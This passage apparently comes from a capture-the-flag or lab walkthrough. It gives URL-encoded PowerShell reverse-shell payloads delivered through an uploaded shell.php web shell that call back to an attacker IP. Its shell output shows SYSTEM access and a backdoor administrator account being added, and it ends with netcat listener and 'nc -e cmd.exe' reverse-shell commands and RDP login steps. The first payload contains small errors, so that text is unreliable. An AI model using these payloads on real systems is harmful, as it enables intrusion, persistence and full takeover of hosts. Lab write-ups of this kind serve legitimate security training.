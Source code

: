 Use any of the following payloads. The full url will use the `shell.php` payload along with `powershell payload command`.
{% capture code %}{% raw %}http://<target-ip>/uploads/shell.php?cmd=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient(%2710.10255.254%27%2C443)%3B%24stream%20%3D%20%24client.GetStream()%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile(%24i%20%3D%20%24stream.Read(%24bytes%2C%200%2C%20%24bytes.Length))%20-ne%200)%7B%3B%24data%20%3D%20(New-Object%20-TypeName%20System.TextASCIIEncoding).GetString(%24bytes%2C0%2C%20%24i)%3B%24sendback%20%3D%20(iex%20%24data%202%3E%261%20%7C%20Out-String%20%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20(pwd).Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20(%5Btextencoding%5D%3A%3AASCII).GetBytes(%24sendback2)%3B%24stream.Write(%24sendbyte%2C0%2C%24sendbyte.Length)%3B%24stream.Flush()%7D%3B%24clientClose()%22%0A

http://<target-ip>/uploads/shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.255.254%27%2C443%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22{% endraw %}{% endcapture %} {%include code.html code=code %}

The `reverse shell` would have spawned at the netcat listener.
{% capture code %}{% raw %}Connection from <target-ip> 49819 received!

PS C:\xampp\htdocs\uploads> whoami
nt authority\system

PS C:\xampp\htdocs\uploads> net user tsran tsran123 /add
The command completed successfully.

PS C:\xampp\htdocs\uploads> net localgroup administrators tsran /add
The command completed successfully.{% endraw %}{% endcapture %} {%include code.html code=code %}

Use `xfreerdp` to test rdp connection with newly created user.
{% capture code %}{% raw %}xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:<target-ip> /u:tsran /p:'<password>'{% endraw %}{% endcapture %} {%include code.html code=code %}


### Reverse Netcat shell - Windows

Create a `netcat` listener in attacking machine.
{% capture code %}{% raw %}rlwrap nc -lnvp 443{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {%include code.html code=code %}

Use `xfreerdp` to test rdp connection with newly created user.
{% capture code %}{% raw %}xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:<target-ip> /u:Administrator /p:'<password>'{% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `reverse shell` from the target.
{% capture code %}{% raw %}nc -nv 10.10.255.254 443 -e "cmd.exe"{% endraw %}{% endcapture %} {%include code.html code=code %}
